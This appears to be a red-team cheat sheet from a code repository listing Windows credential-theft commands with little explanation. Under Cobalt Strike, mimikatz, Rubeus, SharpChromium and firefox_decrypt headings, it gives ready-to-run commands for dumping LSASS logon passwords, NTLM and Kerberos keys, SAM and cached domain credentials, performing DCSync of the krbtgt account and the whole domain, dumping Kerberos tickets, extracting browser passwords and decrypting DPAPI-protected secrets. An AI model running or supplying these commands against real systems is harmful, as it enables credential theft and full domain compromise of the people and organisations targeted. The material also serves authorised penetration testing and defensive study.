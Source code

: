 ### Cobalt Strike
logonpasswords contains msv,tspkg,wdigest,kerberos,ssp,credman,cloudap.
```powershell
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !sekurlsa::dpapi
mimikatz !lsadump::sam
mimikatz !lsadump::cache

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```

### Domain Cached Credentials
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```powershell
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```

### Chrome Credentials
```powershell
https://github.com/djhohnstein/SharpChromium
SharpChromium.exe all > res.txt

https://github.com/ohyicong/decrypt-chrome-passwords
python3 .\decrypt_chrome_password.py > res.txt
```

### Firefox Credentials
```powershell
https://github.com/unode/firefox_decrypt
python3 .\firefox_decrypt.py
```

### DPAPI

#### Enum
```powershell
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
```

#### Dump encrypted credentials (pbData) and the related master key ID (guidMasterKey) 
```powershell
ls -Hidden C:\users\user2\appdata\local\microsoft\credentials\
mimikatz.exe "dpapi::cred /in:C:\users\user2\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit > res1.txt
```

#### Get Master Key File (Encrypted)
```powershell
ls -Hidden C:\users\user2\appdata\roaming\microsoft\protect\<SID>\<MasterKey>
```

#### 1. If the key is cached in LSASS (Admin User)
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > res2.txt
type res2.txt | sls "user name|guid|masterkey"
```

#### 2. Interact with the DC through the MS-BKRP RPC service (Domain User)
```powershell
mimikatz.exe "dpapi::masterkey /in:C:\users\user2\appdata\roaming\microsoft\protect\S-1-5-21-410602843-3916082903-3170366279-1119\7f1985f1-624d-4024-b36d-c0ca6d6b3766 /rpc" exit
```

#### Decrypting
```powershell
mimikatz.exe "dpapi::cred /in:C:\users\hassan\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D /masterkey:d5b953e1efc3890d63921fc7bd816a26c913dcc47df52b8e18b56a466ca0e1bd486fd6c9b93d31105af1c84ab7ceba1e00216d99e2601c058bdc6af3a00860d0" exit
```
